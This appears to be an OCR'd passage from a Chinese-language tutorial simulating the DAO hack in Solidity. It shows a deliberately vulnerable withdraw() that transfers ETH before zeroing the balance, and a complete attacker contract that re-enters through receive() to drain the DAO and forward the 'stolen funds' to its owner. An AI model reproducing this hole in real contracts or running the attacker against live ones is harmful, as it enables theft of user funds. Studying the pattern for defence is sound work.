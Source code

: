 ```solidity
    function withdraw() external {
        uint256 amount = balances[msg.sender];
        require(amount > 0, "no balance");

        // 漏洞：先转账，再更新余额
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "transfer failed");

        balances[msg.sender] = 0;
    }

    /// @notice 查看合约余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

**攻击合约文件：Attacker.sol**  

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "./VulnerableDAO.sol";

/// @title 攻击合约 - 模拟DAO Hack
contract Attacker {
    VulnerableDAO public dao;
    address public owner;

    constructor(address _dao) {
        dao = VulnerableDAO(_dao);
        owner = msg.sender;
    }

    /// @notice 发起攻击
    function attack() external payable {
        require(msg.value >= 1 ether, "need at least 1 ETH");
        dao.deposit{value: 1 ether}();
        dao.withdraw();
    }

    /// @notice 接收ETH并重入
    receive() external payable {
        if (address(dao).balance >= 1 ether) {
            dao.withdraw();
        }
    }

    /// @notice 提取盗得资金
    function withdrawStolenFunds() external {
        require(msg.sender == owner, "not owner");
        payable(owner).transfer(address(this).balance);
    }
}
```  
